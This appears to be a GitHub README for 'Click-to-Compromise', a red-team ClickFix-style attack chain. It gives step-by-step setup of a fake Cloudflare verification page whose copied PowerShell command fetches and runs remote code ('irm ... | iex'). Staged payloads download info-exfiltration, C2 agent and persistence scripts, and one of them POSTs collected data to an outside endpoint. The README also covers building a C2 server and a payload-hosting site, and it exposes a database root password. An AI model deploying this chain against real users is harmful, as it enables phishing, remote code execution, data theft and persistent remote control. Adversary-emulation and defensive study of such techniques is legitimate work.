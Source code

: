 # Materials for Click-to-Compromise technique

[This article]() is a deep dive into the **Click-to-Compromise** technique: a minimal-interaction, post-phishing attack chain that transitions from a single PowerShell command into full system compromise. It’s designed for red teamers, malware analysts, adversary emulation professionals, and curious defenders looking to understand modern evasion techniques beyond script kiddie noise.

## The files

- **C2 folder:** contains the source code I have used within an IDE (IntelliJ IDEA) to run the C2.
- **Website folder:** contains the web files and payloads ready to host in a server.
- **Payloads folder:** contains the *.ps1* files.

## The setup

I tried to keep the setup as simple as possible for replication purposes: just 2 machines running Windows 11.

### Attacker

I was investigating on Windows 11 OS and the only tools needed are:
- Docker
- VirtualBox
- IDE to run the C2 and modify the code as needed
- Cloudflare Tunnel (setup is out if the scope of this doc)

> **REMEBER: Modify the payloads as needed in all files.**

On Cloudflare Zero Trust, create a tunnel (if you don't have one already) and create a public hostname pointing to your website server local IP. This will be your malicious website that we will need to add in the next step. 

Inside `index.html`:

```javascript
var maliciousCommand = 'powershell -ExecutionPolicy Bypass -NoProfile -Command irm \'<https://your.serverurl.com/payload.html>\' | iex';
```

Inside `payload.html`:

```
Invoke-WebRequest -Uri https://your.serverurl.com/payloads/cloudflare.verification.txt -OutFile $env:USERPROFILE\Desktop\cloudflare.verification.ps1; 
powershell -ExecutionPolicy Bypass -File $env:USERPROFILE\Desktop\cloudflare.verification.ps1
```

Inside `cloudflare.verification.txt`:

```
Invoke-WebRequest -Uri https://your.serverurl.com/payloads/infoexfil.ps1 -OutFile $env:USERPROFILE\Desktop\infoexfil.ps1

Invoke-WebRequest -Uri https://your.serverurl.com/payloads/agent.ps1 -OutFile "$env:USERPROFILE\Desktop\agent.ps1"

Invoke-WebRequest -Uri https://your.serverurl.com/payloads/persist.ps1 -OutFile "$env:USERPROFILE\Desktop\persist.ps1"
```

Inside `infoexfil.ps1`:

```powershell
Invoke-WebRequest -Uri "https://yourmockbin.api.mockbin.io/" -Method POST -Body $body -ContentType "application/json"
```

Inside `agent.ps1`:

```powershell
$C2 = "YOUR IP ADDRESS"
$Port = 4444
```

Inside `persist.ps1`:

```powershell
Invoke-WebRequest -Uri "https://your.serverurl.com/payloads/agent.ps1" -OutFile $payloadPath
```

#### Database

I have used **Docker Desktop**. Run a **MySQL** container with the following **environmental variables**:

```
MYSQL_ROOT_PASSWORD=w0DSQGYPsvARiBVTiwKKH3otYZ4rxKGu
MYSQL_DATABASE=c2server
```

Start the container.

#### C2

Open your preferred IDE and open the C2 files as a project. Then:

1. Run **TestDBConnection** class first to make sure your DB connection is fine and to create the **agents** table
2. Build the artifacts to deploy with **Tomcat**
3. Deploy to **Tomcat** and visit **/server/agents** endpoint

#### Website

I have used NGINX running on Docker. Start the container in your desired port (not 8080, I used a random 6984) and launch a terminal inside the website folder. To copy the files inside the container, run the following commands:

```
docker ps
```
This will list your running containers, identify your server conatiner name. Next, create the `payloads` directory in your server:

```
mkdir /usr/share/nginx/html/payloads
```

Then, paste copy the files with this commands:

```
docker cp index.html clickfix:/usr/share/nginx/html/
docker cp payloads.html clickfix:/usr/share/nginx/html/

docker cp turnstyle.css clickfix:/usr/share/nginx/html/
docker cp turnstile_gif.gif clickfix:/usr/share/nginx/html/
docker cp recaptcha.png clickfix:/usr/share/nginx/html/

docker cp cloudflare.verification.ps1 clickfix:/usr/share/nginx/html/payloads/
docker cp infoexfil.ps1 clickfix:/usr/share/nginx/html/payloads/
docker cp persist.ps1 clickfix:/usr/share/nginx/html/payloads/
docker cp persist.ps1 clickfix:/usr/share/nginx/html/payloads/
``` 

### Victim

For the victim, I used a VirtualBox VM running **Windows 11 (24H2)** in bridged adapter mode. Then I just installed Chrome to access the website.

